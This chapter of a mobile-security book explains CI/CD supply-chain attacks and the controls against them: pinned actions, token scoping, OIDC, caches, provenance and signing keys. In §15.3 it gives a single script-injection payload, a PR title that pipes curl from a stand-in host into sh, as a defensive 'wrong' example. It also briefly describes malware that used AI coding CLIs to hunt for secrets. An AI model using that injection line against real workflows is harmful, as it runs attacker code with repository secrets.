


# Part 6: The build and release pipeline

## Chapter 15: Why your pipeline is now the target

On 11 May 2026, someone opened a pull request against TanStack, a popular set of JavaScript libraries. Nobody merged it, and nobody needed to: a workflow that runs automatically on pull requests saved a poisoned file into the project's build cache. Just under eight hours later, the project's own legitimate release workflow restored that cache, and 84 malicious package versions went out under TanStack's name *(reported; §15.1 has the detail)*.

Three terms run through this chapter. **CI/CD** (continuous integration and delivery) is the automation that builds, tests, and releases your app; the examples here use GitHub Actions. A **runner** is the machine that executes a CI job. A **supply-chain attack** compromises something your build trusts (a dependency, a tool, a cache, or a CI action) rather than attacking your app directly.

TanStack shows the shape of the modern supply-chain attack. Your CI holds your signing keys, your store credentials, and your cloud access, and it runs code on every commit. An attacker who controls it doesn't need to reverse engineer anything: they ship malicious code to your users **under your own signature**, through your own release channel.

Treat your workflow files as production code with production privileges. That rule shapes everything below.



*Figure 18: Trust boundaries in a mobile CI/CD pipeline*

Every control in this chapter defends one of those arrows. TanStack lost the dotted one.

### 15.1 What actually happened

Each incident below happened, and each one teaches a control.

| Incident | When | What happened | The control it teaches |
|---|---|---|---|
| **Ultralytics** (PyPI) | 4–7 Dec 2024 | A `pull_request_target` workflow put a fork's branch name into a shell step; the injected code poisoned the Actions cache, and the release job published builds carrying a cryptominer. Two later releases went out with a PyPI API token nobody had revoked | Treat input as hostile; caches are inputs; revoke long-lived tokens |
| **tj-actions/changed-files** (CVE-2025-30066) | 14–15 Mar 2025 | Attackers repointed the action's version tags to a malicious commit that dumped runner secrets into workflow logs, which are public on public repositories. Over 23,000 repositories used the action. The chain most likely began with a leaked maintainer token and a compromised `reviewdog/action-setup@v1` (CVE-2025-30154) | Tags are mutable: pin to commit SHAs |
| **Nx "s1ngularity"** | 26 Aug 2025 | A PR title was echoed unsanitized in a `pull_request_target` workflow; the attacker obtained the npm publish token and shipped versions that used developers' installed AI coding CLIs to hunt for secrets | Never interpolate untrusted text into `run:` |
| **GhostAction** | disclosed 5 Sep 2025 | Workflows named "Github Actions Security" were pushed into 817 repositories belonging to 327 users and exfiltrated 3,325 secrets over HTTP | Workflow changes need review by someone who reads them |
| **Shai-Hulud**, two waves | Sep and Nov 2025 | A self-replicating npm worm. The second wave ("Sha1-Hulud: The Second Coming") registered infected machines as self-hosted runners named `SHA1HULUD` and dumped stolen credentials into tens of thousands of public repositories | Monitor runner registrations and new-repository creation |
| **aquasecurity/trivy-action** (CVE-2026-33634) | 19 Mar 2026 | 76 of 77 tags force-pushed, plus all `setup-trivy` tags and a malicious Trivy release (v0.69.4), all harvesting CI secrets. The root cause was an incident about three weeks earlier whose credential rotation was not simultaneous, leaving the attacker a valid token | Pin actions *and* tool binaries; a security scanner is still a dependency |
| **TanStack / "Mini Shai-Hulud"** | 11 May 2026 | Cache poisoning via a `pull_request_target` workflow, then theft of the release job's short-lived OIDC identity token (defined below) from the runner's memory; 84 versions across 42 packages | Caches are a trust boundary; provenance is not cleanliness (§15.5) |
| **Megalodon** | 18 May 2026 | 5,718 malicious workflow commits to 5,561 repositories in about six hours, from throwaway accounts with forged bot author names | Automated attacks outrun manual review; enforce policy in settings |

All figures come from the maintainers' advisories and post-mortems or from the researchers who disclosed them *(reported)*; the sources are listed at the end of this section.

**TanStack is the one to study**, because it defeated a team that had already removed long-lived publish tokens. The attacker's pull request triggered a bundle-size check running on `pull_request_target` (a trigger that runs with the base repository's permissions; §15.3). That job built the pull request's code and saved a poisoned pnpm store into the Actions cache. Just under eight hours later, the real release workflow restored that cache. The malicious code found the runner process and read the job's **OIDC token** out of its memory. (An OIDC token is a short-lived identity token that GitHub issues to a single job; §15.3 explains it.) The code then published straight to npm with that token, which npm's trusted publishing accepts in place of a stored publish token. No npm token was stolen, because none existed. *Lesson: short-lived credentials limit how long a stolen token is useful, not whether code running inside your release job can use it.*



*Figure 19: The TanStack compromise: a poisoned cache crosses from an untrusted job into the release job*

**Closer to home for mobile teams.** In June 2025, 17 packages in the React Native Aria / gluestack family, with over a million weekly downloads between them, were published with a remote-access trojan after an npm token without two-factor protection leaked *(reported)*. If you build with React Native, Expo, or any npm-based tooling, the npm incidents above are your incidents. Malicious SDKs inside apps are the same problem one layer up, in the app rather than the build: in 2025 Kaspersky found SparkCat, an SDK that used optical character recognition (OCR) to read wallet recovery phrases from users' photos, in both Google Play and App Store apps. It was code those developers shipped but didn't write *(reported)*.

GitHub's **2026 Actions security roadmap** (26 March 2026) promised workflow dependency locking, rules over which events and actors can run workflows, scoped secrets, and an egress firewall for hosted runners. As of October 2026, workflow execution protections are generally available (17 September 2026; §15.3) and workflow lockfiles (`.github/workflows/actions.lock`) are in public preview (14 October 2026). Check the status of the rest before relying on it. Nothing in this chapter depends on them.

Sources for this section: [GitHub roadmap](https://github.blog/news-insights/product-news/whats-coming-to-our-github-actions-2026-security-roadmap/), [workflow execution protections GA](https://github.blog/changelog/2026-09-17-workflow-execution-protections-in-github-actions-generally-available/), [workflow lockfiles preview](https://github.blog/changelog/2026-10-14-github-actions-workflow-lockfiles-in-public-preview/), [GitHub supply-chain overview](https://github.blog/security/supply-chain-security/securing-the-open-source-supply-chain-across-github/), [TanStack post-mortem](https://tanstack.com/blog/npm-supply-chain-compromise-postmortem), [tj-actions advisory](https://github.com/advisories/GHSA-mrrh-fwg8-r2c3), [Trivy advisory](https://github.com/aquasecurity/trivy/security/advisories/GHSA-69fq-xp46-6x23), [PyPI on Ultralytics](https://blog.pypi.org/posts/2024-12-11-ultralytics-attack-analysis/), [Nx post-mortem](https://nx.dev/blog/s1ngularity-postmortem), [GitGuardian on GhostAction](https://blog.gitguardian.com/ghostaction-campaign-3-325-secrets-stolen/), [GitHub on Shai-Hulud](https://github.blog/security/supply-chain-security/our-plan-for-a-more-secure-npm-supply-chain/), [SafeDep on Megalodon](https://safedep.io/megalodon-mass-github-repo-backdooring-ci-workflows/).

### 15.2 Secrets: classify, then protect

Not every string is a secret. If you treat them all the same, people get careless with the ones that matter.

| Class | Examples | Where it may live |
|---|---|---|
| **Not secret** | Public API base URLs, feature flags, and public keys | Source control is fine. Encrypting these teaches your team that the secret store is bureaucracy |
| **Client identifier** | OAuth client IDs, Firebase configuration, and Maps SDK keys | Necessarily ships in the app. Protect it **server-side** by restricting use to your package name and signing certificate (Android) or bundle ID (iOS): the identifier is public, the authorization is not |
| **Restricted** | Any third-party key with quota or cost attached, including model-provider keys | **Proxy through your backend** (§12.3). Never in the app. If it's in the app, anyone can extract it and run up your bill |
| **Never in the client** | Signing keys, service-account credentials, database credentials, and store API keys | CI secret store only, exposed only to the job that needs it |

Leaked secrets stay usable for years: more than 64% of the secrets GitGuardian found valid in 2022 were still valid when it rechecked them in January 2026 (§2.2). Four operational rules follow.

**When a secret leaks, rotate first, then clean history.** Not the other way around. Deleting the commit doesn't revoke the credential, and you should assume someone harvested it within minutes of the push. After rotating, purge history, add scanning, and check access logs for use of the old credential.

**Scan every push, blocking.** GitHub **push protection** rejects a push that contains a recognized secret. It's free on public repositories and part of the paid **GitHub Secret Protection** product for private ones. GitGuardian and `trufflehog` do the same job and also scan history.

**Prefer short-lived credentials to stored ones** wherever the platform allows (§15.3), and remember TanStack's lesson that short-lived is not the same as safe.

**Audit your outputs, not only your inputs.** Run `strings` on your release artifact. It's the same experiment as Chapter 1, and it belongs in your release gate (§15.7).

Two current findings matter here *(reported, GitGuardian 2026; see §2.2)*. First, public commits made with one AI coding agent (Claude Code) leaked secrets at 3.2%, against a 1.5% baseline across all public commits, so commit-time scanning is essential for any team that uses coding agents. Second, if your tooling uses **MCP** (Model Context Protocol) servers, which connect AI assistants to tools and data, audit their configuration files specifically. They exposed 24,008 unique secrets in GitGuardian's data, and many scanning setups weren't built with them in mind.

### 15.3 Hardening the workflow

Here are six controls, in the order I'd apply them.

**1. Pin third-party actions to full-length commit SHAs.** A tag is a movable label: anyone with push access to the action's repository can point it at different code, as the tj-actions and Trivy attackers did. A commit SHA is a hash of the commit's content, so it can't change without becoming a different SHA. Keep the version in a trailing comment so the file stays readable:

```yaml
- uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
```

> **Trap:** GitHub doesn't check the comment, and a wrong one survives review for years because nobody reads SHAs. Let a tool write the pin and the comment (`pinact run` or StepSecurity's `secure-repo`), and let a linter check that they still match (`pinact` and zizmor's `ref-version-mismatch` audit both do). If you resolve a SHA yourself, use `git ls-remote --tags https://github.com/actions/checkout` rather than copying one from a blog. For an annotated tag, take the commit from the line ending in `^{}`, not the tag object's SHA.

Keep SHAs current with Dependabot, and add a **cooldown**: a delay before you adopt a new release. Compromised releases are usually caught in their first days, so a cooldown lets someone else find the problem first. Since July 2026, Dependabot has applied a three-day default cooldown to version updates; security updates aren't delayed. Set a longer one explicitly for actions:

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: "github-actions"
    directory: "/"
    schedule:
      interval: "weekly"
    cooldown:
      default-days: 7
    groups:
      actions:
        patterns: ["*"]
        update-types: ["minor", "patch"]
```

Then enforce it. Since August 2025, GitHub's allowed-actions policy has a **Require actions to be pinned to a full-length commit SHA** setting at enterprise, organization, and repository level, and supports `!` entries that block a named action outright. **Immutable releases** (generally available since October 2025) let an action's author make a release's tag and assets unchangeable. They protect you only if the author turned them on, and they don't cover the floating major-version tags most workflows reference, such as `v7`, so pin anyway. GitHub's **workflow lockfiles** (public preview since October 2026) go one step further: `gh actions-lock` records the commit of every action a workflow uses, including the actions those actions call, in `.github/workflows/actions.lock`.

**2. Deny token permissions by default.** Every workflow run receives a `GITHUB_TOKEN`. If code in your workflow is compromised, that token is what it can use against your repository. Set `permissions: {}` at workflow level so the token can do nothing, and grant the minimum per job. Since 2 February 2023, *new* enterprises, organizations, and personal repositories default to a read-only token. Existing ones kept whatever they had, and repositories inherit their organization's setting. An older organization may still hand every workflow a read-write token, so check *Settings → Actions → General* rather than assuming.

```yaml
permissions: {}          # workflow level: deny everything
jobs:
  build:
    runs-on: ubuntu-latest
    permissions:
      contents: read     # job level: only what this job needs
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false   # don't leave the token on disk for later steps
      - run: ./gradlew assembleDebug
```

**3. Replace static cloud credentials with OIDC.** OpenID Connect (OIDC) lets a job ask GitHub for a signed token that says, in effect, "I am this workflow, on this branch, of this repository". Your cloud provider checks it and exchanges it for temporary credentials. A stored key stays valid until someone revokes it, and anyone who copies it can use it from anywhere. An OIDC token is issued for a single job and expires within minutes. AWS, Azure, and Google Cloud all support it. Scope the cloud-side trust policy to the repository, branch, *and* environment, never the whole organization.

For package publishing, use **trusted publishing**, the same idea applied to registries: the registry accepts the job's OIDC token instead of a stored publish token. npm (generally available since July 2025) and PyPI support it. Scope it to the **exact workflow filename**, and pair it with branch protection that requires pull requests and blocks force pushes.

**4. Treat all external input as hostile.** Anyone can open a pull request or an issue, so PR titles, issue bodies, branch names, and commit messages are attacker-controlled. GitHub expands `${{ }}` expressions *before* the shell runs, so an expression inside `run:` becomes part of your script. That's **script injection**, and it's how attackers got into Ultralytics and Nx:

```yaml
# Wrong: a PR titled   x"; curl -s https://evil.example | sh; echo "   runs as your script
- run: echo "Checking ${{ github.event.pull_request.title }}"

# Right: pass it as data through the environment, and quote it
- env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: echo "Checking $PR_TITLE"
```

The second version works because the shell reads `$PR_TITLE` as one value when the step runs, so quotes and semicolons inside the title stay text instead of becoming commands.

Be especially careful with **`pull_request_target`**. Unlike `pull_request`, it runs in the context of your base repository, with your secrets and a token that can write, even when the pull request comes from a fork. Attackers used it against Ultralytics, Nx, and TanStack. GitHub has tightened it in stages:

1. Since 8 December 2025, the workflow file always comes from the default branch, so a pull request can't change the workflow that runs.
2. Since June 2026, `actions/checkout` v7 refuses to check out a fork's pull request code in `pull_request_target`, or in a `workflow_run` started by a pull request, unless you set `allow-unsafe-pr-checkout`. GitHub backported this to the other supported major versions on 20 July 2026, but only floating tags such as `@v4` picked it up. A workflow pinned to an older SHA gets the protection only when you move the pin to a patched release.
3. From 2 November 2026, a default *workflow execution protections* rule disables `pull_request_target` in public repositories that have no event policy of their own, unless you explicitly allow it again. Private and internal repositories aren't affected.

TanStack fell after the first of these changes, because its workflow deliberately built the fork's code. If you need the trigger, never check out or run the fork's code in that job, and never let it write a cache or artifact another workflow will consume.

Run workflow linters in CI to catch these mechanically. **actionlint** checks syntax and expression misuse, and **zizmor** flags security problems such as template injection, dangerous triggers, cache poisoning, unpinned actions, and persisted credentials.

**5. Put workflow files under review.** Add a `CODEOWNERS` entry pointing `.github/workflows/` at someone who understands the implications, and require code-owner approval in branch protection or a ruleset. Without it, anyone with write access can change what runs with your secrets. Treat an external pull request that changes a pinned SHA as suspicious until you've checked where the new SHA comes from.

**6. Harden and watch the runners.** Prefer GitHub-hosted or other ephemeral runners, so nothing persists between jobs. Never let self-hosted runners pick up jobs from public-repository pull requests: anyone can open one, and its code then runs on your machine. Alert on **new runner registrations** and **new repository creation** in your organization: both would have surfaced Shai-Hulud's second wave early, because it registered infected machines as runners and created public repositories to dump credentials into.

### 15.4 Dependencies and build inputs

Your build consumes more than your own code. Each input below is something an attacker can influence if you leave it unpinned.

**Lock your dependencies.** A lockfile records the exact version of every dependency a build resolved, including the dependencies of your dependencies. Enable Gradle dependency locking and commit the lockfiles. Commit `Gemfile.lock` for fastlane and `Package.resolved` for Swift packages too. Without a lockfile, the same build file can resolve a different version a month later, and nobody notices.

```kotlin
// build.gradle.kts (each module, or once in a convention plugin)
dependencyLocking {
    lockAllConfigurations()
}
```

Write the lockfiles by running `./gradlew dependencies --write-locks` for each module (or any task that resolves every configuration), and commit the resulting `gradle.lockfile`.

**Enable Gradle dependency verification**, so a swapped artifact fails the build rather than shipping. A lockfile pins the version; verification pins the bytes. `./gradlew --write-verification-metadata sha256 help` writes `gradle/verification-metadata.xml`, which records the expected SHA-256 checksum of every downloaded artifact, and Gradle then fails the build if a download doesn't match. Commit the file and review changes to it like code.

**Generate an SBOM per build and scan it.** A **software bill of materials** (SBOM) lists every component in the artifact, so you can answer "do we ship the vulnerable version?" the day a CVE is announced. The CycloneDX Gradle plugin produces one, and the OWASP Dependency-Check plugin flags known CVEs before release. MASTG-TEST-0274 (Android) and MASTG-TEST-0275 (iOS), both *Dependencies with Known Vulnerabilities in the App's SBOM*, test exactly this.

**Audit what your dependencies request.** Check permissions in the *merged* manifest (Android Studio's Merged Manifest tab), not only the ones you declared. If a UI animation library requests location or contacts, find out why.

**Treat caches as inputs.** A poisoned cache is a supply-chain attack with no dependency change to review. GitHub scopes caches by branch, and every branch can read the default branch's caches. A `pull_request` run's cache is visible only to re-runs of that pull request. Current documentation says only trusted triggers such as `push`, `schedule`, and `workflow_dispatch` can write the default-branch caches, while runs from `pull_request_target`, `issue_comment`, and `workflow_run` may only read them ([GitHub Docs](https://docs.github.com/en/actions/reference/workflows-and-actions/dependency-caching)). A `cache-mode` key (`read`, `write`, `write-only`, or `none`; generally available since September 2026) lets you set each job's access explicitly. Never set a write-capable `cache-mode` on a `pull_request_target` job: it reopens exactly the path TanStack lost. Don't assume those rules applied when your existing caches were written. For release builds, consider restoring no shared cache at all: a slower release is cheaper than a poisoned one.

**Pin your toolchain**, not only your libraries, so CI and every laptop run identical versions:

- The Gradle wrapper, with `distributionSha256Sum` in `gradle/wrapper/gradle-wrapper.properties`. Gradle checks it when it downloads the distribution, and `gradle/actions/setup-gradle` validates the wrapper JAR's checksum by default.
- A fixed JDK version.
- A `.ruby-version` file, with fastlane pinned in `Gemfile.lock`.

### 15.5 Provenance, and the uncomfortable thing about it

**Build provenance** is a signed statement about how an artifact was produced: which source commit, which build platform, and which workflow. **SLSA** (Supply-chain Levels for Software Artifacts) defines how far you can trust such a statement. The current version, SLSA v1.2, has a **Build track** with four levels: **L0**, no guarantees; **L1**, provenance exists; **L2**, provenance is signed and generated by a hosted build platform; **L3**, the platform is hardened so that runs are isolated from one another and the signing material is out of reach of the build's own steps. v1.2 also adds a **Source track** for the repository side.

**Sigstore** is the open signing infrastructure most of this runs on. It issues short-lived signing certificates tied to a workload's OIDC identity, so there's no long-lived signing key to steal. On its public-good instance, it also records every signature in a public transparency log: an append-only record anyone can search, so a signature can't be issued in secret. GitHub's **artifact attestations** use Sigstore. You create them with `actions/attest` (the older `actions/attest-build-provenance` is now a wrapper around it) and check them with `gh attestation verify`. They give SLSA Build L2 by default on GitHub-hosted runners, or L3 when the build runs in a reusable workflow. Two limits matter for a mobile team, because most app repositories are private. First, artifact attestations in private or internal repositories need **GitHub Enterprise Cloud**; on the Free, Pro, and Team plans, they work only in public repositories. Second, GitHub signs private repositories' attestations with its own Sigstore instance, which has **no transparency log**, so the public, append-only record exists only for public repositories ([GitHub Docs](https://docs.github.com/en/actions/concepts/security/artifact-attestations)).

Provenance is valuable. It's also routinely oversold, and TanStack is the proof. **The malicious packages published in that attack carried valid, signed SLSA provenance, and verification reported them as genuine** *(reported by StepSecurity, which calls them valid SLSA Build Level 3 provenance attestations, and by Snyk; TanStack's own post-mortem lists provenance checks only as a follow-up and doesn't say whether the attestations verified)*.

The reason is precise: **provenance attests to the process, not to the cleanliness of the inputs.** The build did run on the declared platform, from the declared repository, through the declared workflow. It also restored a poisoned cache. Everything the attestation recorded was true, and the artifact was still malicious. SLSA v1.2's L3 isolation requirement does say that one build must not be able to poison a cache another build uses ([SLSA build requirements](https://slsa.dev/spec/v1.2/build-requirements)). But the Actions cache is something workflows read and write themselves, through steps they choose, and the attestation records neither what the cache held nor which run wrote it. Whether that makes the L3 label wrong or puts the cache outside the platform's guarantee is arguable *(contested)*. Either way, verifying the attestation couldn't have caught the attack *(reasoned)*.

So when someone in a design review says "we have provenance, our supply chain is verified," the correct response is that provenance closes the *substitution* attack, meaning someone publishing an artifact that didn't come from your build. It does nothing about a compromised input. You still need §15.4's controls on what enters the build.

### 15.6 Signing keys and release integrity

This is the part that decides whether an attacker can ship code as you.

**Android: use Play App Signing.** Google holds the **app signing key**, the key whose certificate users' devices check on every update; you hold an **upload key**, used only to prove to Google that an upload came from you. The split is what protects you. If someone steals your upload key, they still **can't produce an update that users' devices will accept** without also getting into your Play Console account, and you can ask Google to reset the upload key (**Play Console → Protected with Play → Play Store protection → Manage Play app signing → Request upload key reset**). Without the split, a stolen signing key lets an attacker sign updates that install over yours through any sideloading channel, and you can't take the key back. Play App Signing has been required for new apps since August 2021, when the Android App Bundle became mandatory; older apps can opt in. New apps are now enrolled by default in Play's quantum-ready **hybrid signing**. It pairs a classical RSA 4096-bit key with a post-quantum ML-DSA-65 key (APK Signature Scheme v3.2, checked by Android 17 and later), plus a separate classical key for Android 16 and earlier, so Play Console lists more than one app signing certificate. The upload-key model is unchanged ([Play Console Help](https://support.google.com/googleplay/android-developer/answer/9842756)).

Guard your Play Console account as closely as your keys for one more reason. Android's developer verification (Chapter 0.4) ties installation on certified devices to a verified developer identity. It applies first from 30 September 2026, to installs from Play and partner stores in four countries (Brazil, Indonesia, Singapore, and Thailand), and then from 2027 to all apps worldwide, including those installed from outside Play.

**Keystore handling in CI.** CI secret stores hold text, so store the upload keystore base64-encoded there (or encrypted in the repository, with the passphrase in the secret store). Decode it at build time into a temporary path, and delete it afterward. Never commit `key.properties` or a `gradle.properties` that contains passwords: a leaked `gradle.properties` with a signing password does as much damage as a leaked server key.

And **fail the build when release signing is missing**, rather than silently producing an artifact the store rejects on upload or, worse, one signed with a key nobody meant to use:

```kotlin
// app/build.gradle.kts
val uploadKeystore: String? = System.getenv("UPLOAD_KEYSTORE_PATH")
val wantsRelease = gradle.startParameter.taskNames.any { it.contains("Release", ignoreCase = true) }
if (wantsRelease && uploadKeystore == null) {
    throw GradleException("Release signing is not configured: UPLOAD_KEYSTORE_PATH is unset")
}

android {
    signingConfigs {
        create("release") {
            if (uploadKeystore != null) {
                storeFile = file(uploadKeystore)
                storePassword = System.getenv("UPLOAD_KEYSTORE_PASSWORD")
                keyAlias = System.getenv("UPLOAD_KEY_ALIAS")
                keyPassword = System.getenv("UPLOAD_KEY_PASSWORD")
            }
        }
    }
    buildTypes {
        release {
            signingConfig = signingConfigs.getByName("release")
        }
    }
}
```

**iOS: use `fastlane match`, or Xcode Cloud's managed signing.** `match` keeps certificates and provisioning profiles encrypted in a private store (a git repository, Google Cloud Storage, S3, or GitLab Secure Files) and installs them into the build machine's keychain. On CI, run fastlane's `setup_ci` action first, so they go into a temporary keychain rather than the machine's login keychain. Authenticate to App Store Connect with an **App Store Connect API key** rather than an Apple ID: no interactive two-factor prompt, a role you choose, and revocation without touching anyone's account. Use a **team key** for CI (the Account Holder or an Admin creates it); individual keys can't call the provisioning endpoints that `match` needs. Apple re-signs App Store builds for distribution, so for an attacker the prize is your App Store Connect access rather than your distribution certificate *(reasoned)*.

**Both platforms.** Give store service accounts the **minimum role**: a key that can publish to production when it only needs the internal track adds risk for no benefit. Put the release job behind a GitHub **environment** with required reviewers, so a production upload needs a human approval that a compromised workflow can't give itself. Keep releases **auditable**: tag the commit, record which workflow run produced the artifact, and retain the build log and the provenance. When someone asks "what exactly is in production," you want an answer rather than an investigation.

Putting §15.3 to §15.6 together, a release job looks like this:

```yaml
# .github/workflows/release.yml
name: release
on:
  push:
    tags: ["v*"]

permissions: {}

jobs:
  release:
    runs-on: ubuntu-latest
    environment: production        # required reviewers are configured on this environment
    permissions:
      contents: read
      id-token: write              # OIDC token, used by Sigstore to sign the attestation
      attestations: write          # store the attestation on the repository
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
      - uses: actions/setup-java@de7274f081f381c8f8158605e0321c36c376e2e6 # v6.0.1
        with:
          distribution: temurin
          java-version: "21"
      - uses: gradle/actions/setup-gradle@3f5f9adaf7d9fecd50b5935e54106014257a94e6 # v6.4.0
        with:
          cache-disabled: true     # the release build restores no shared cache
      - name: Decode upload keystore
        env:
          UPLOAD_KEYSTORE_B64: ${{ secrets.UPLOAD_KEYSTORE_B64 }}
        run: |
          printf '%s' "$UPLOAD_KEYSTORE_B64" | base64 --decode > "$RUNNER_TEMP/upload.jks"
          echo "UPLOAD_KEYSTORE_PATH=$RUNNER_TEMP/upload.jks" >> "$GITHUB_ENV"
      - name: Build signed bundle
        env:
          UPLOAD_KEYSTORE_PASSWORD: ${{ secrets.UPLOAD_KEYSTORE_PASSWORD }}
          UPLOAD_KEY_ALIAS: ${{ secrets.UPLOAD_KEY_ALIAS }}
          UPLOAD_KEY_PASSWORD: ${{ secrets.UPLOAD_KEY_PASSWORD }}
        run: ./gradlew --no-daemon bundleRelease
      # Needs a public repo, or GitHub Enterprise Cloud for a private one (§15.5).
      # On a private repo on Free, Pro, or Team, this step fails, so remove it there.
      - uses: actions/attest@1e69f48acb82d1966a394da916b4c1698aa569d6 # v4.2.2
        with:
          subject-path: app/build/outputs/bundle/release/app-release.aab
      - name: Remove keystore
        if: always()
        run: rm -f "$RUNNER_TEMP/upload.jks"
```

The upload to Play or App Store Connect follows, using a service account or API key scoped to the track you release to. The SHAs above were the newest releases older than a seven-day cooldown when I checked this chapter on 20 October 2026; let Dependabot move them.

### 15.7 Verify what actually shipped

A perfect pipeline can still produce a bad artifact. Check the output in an automated release-gate job, not only when someone remembers.

Run `strings` and a decompiler on the **release** build. Confirm `debuggable` is false, logging is stripped, and no debug network configuration survived. Confirm the artifact is signed with the expected key. Diff the dependency tree against the previous release and ask about anything new. The exact commands are at the end of §15.8.

### 15.8 Build configuration, in code

§15.2 to §15.7 cover secrets and the supply chain. This section covers the build configuration itself, where several cheap protections live.

#### Android: R8 rules with security in mind

R8 is Android's build-time shrinker: it removes unused code and renames classes and methods to short, meaningless names. A **keep rule** tells R8 to leave a class or member alone, usually because code reaches it by reflection. R8 has run in full mode by default since Android Gradle Plugin (AGP) 8.0, and it reads the keep rules that libraries ship inside their AARs and JARs (**consumer rules**). That changes the advice: most keep rules copied from older blog posts are now unnecessary, and every unnecessary one leaves readable names in your release build.

```proguard
# app/proguard-rules.pro

# Libraries such as kotlinx.serialization, Tink, OkHttp, and Retrofit ship
# their own consumer rules. Do not add blanket rules like
#   -keep class com.google.crypto.tink.** { *; }
# Each one stops R8 renaming and shrinking the whole library, and hands
# an attacker readable names for your crypto layer.

# Keep only what YOUR code reaches by reflection, by exact name. Example:
# a class instantiated with Class.forName() from a configuration string.
# -keep class com.example.plugins.ExportPlugin { <init>(); }

# DO NOT add keep rules for your security detection classes.
# Letting R8 rename them is the point: an attacker searching the
# decompiled output for "RootSignals" should find nothing.

# Strip verbose, debug, and info logging calls from release builds.
-assumenosideeffects class android.util.Log {
    public static int v(...);
    public static int d(...);
    public static int i(...);
}
```

The detection-class comment matters most *(reasoned)*, and it's the opposite of most keep-rule advice. Every `-keep` rule you add is a name you've handed to an attacker. Keep what reflection requires and nothing else, least of all the classes whose job is to be hard to find.

> **Trap:** `-assumenosideeffects` removes the *call* to `Log.d(...)`, but the code that builds the message can survive if R8 cannot prove it has no side effects. A token you concatenate into a log line may still be computed, and its format string may still sit in the DEX. The rule also does nothing for Timber or other wrappers; §6.6's release tree handles those. Keep sensitive values out of log messages in the first place.

#### Android: separate debug and release properly

```kotlin
// app/build.gradle.kts
android {
    buildFeatures {
        buildConfig = true   // off by default since AGP 8.0
    }
    buildTypes {
        debug {
            isDebuggable = true
            buildConfigField("boolean", "VERBOSE_NETWORK_LOGS", "true")
        }
        release {
            isDebuggable = false
            isMinifyEnabled = true
            isShrinkResources = true
            proguardFiles(
                getDefaultProguardFile("proguard-android-optimize.txt"),
                "proguard-rules.pro"
            )
            buildConfigField("boolean", "VERBOSE_NETWORK_LOGS", "false")
        }
    }
}
```

AGP 9 changes three things here:

1. `getDefaultProguardFile()` accepts only `proguard-android-optimize.txt`. AGP rejects the old `proguard-android.txt`, which disabled optimization, by default (through the `android.r8.proguardAndroidTxt.disallowed` flag, which a project can still turn off).
2. R8 is stricter about keep rules by default (`android.r8.strictFullModeForKeepRules`): `-keep class A` no longer implies keeping its constructor. Name `<init>` explicitly where reflection needs it, as the example rule above does.
3. AGP 9.3 introduced an `optimization { enable = true }` block, with keep rules in `.keep` files under `src/<variant>/keepRules`. Google's documentation now labels `isMinifyEnabled` and `isShrinkResources` the legacy DSL for AGP versions before 9.3. The properties above still work; move to the new block when your AGP version supports it, following [Google's guide to enabling app optimization](https://developer.android.com/topic/performance/app-optimization/enable-app-optimization).

The `BuildConfig` flag pattern gives you a testable debug build without shipping a testable release. But it introduces a risk: **a flag that relaxes security is a flag an attacker wants to flip.** Never gate pinning, certificate trust, or security checks on a `BuildConfig` boolean. R8 deletes the branch behind a `false` constant only if nothing else keeps that code alive, so the relaxed path can survive in the release binary for an attacker to re-enable. Put debug-only behavior in the `src/debug/` source set instead (for example, a `network_security_config.xml` with `<debug-overrides>`, §7.1), so the code doesn't exist in the release variant at all. Then verify by inspecting the release artifact (§15.7) rather than trusting the configuration.

#### iOS: strip the release build

Set these in Build Settings for the Release configuration:

| Setting | Value | Why |
|---|---|---|
| `DEPLOYMENT_POSTPROCESSING` | `YES` | Archive turns it on anyway; setting it makes a plain Build of the Release configuration strip too, since without it the strip settings below do nothing |
| `STRIP_INSTALLED_PRODUCT` | `YES` | Strip symbols from the shipped binary |
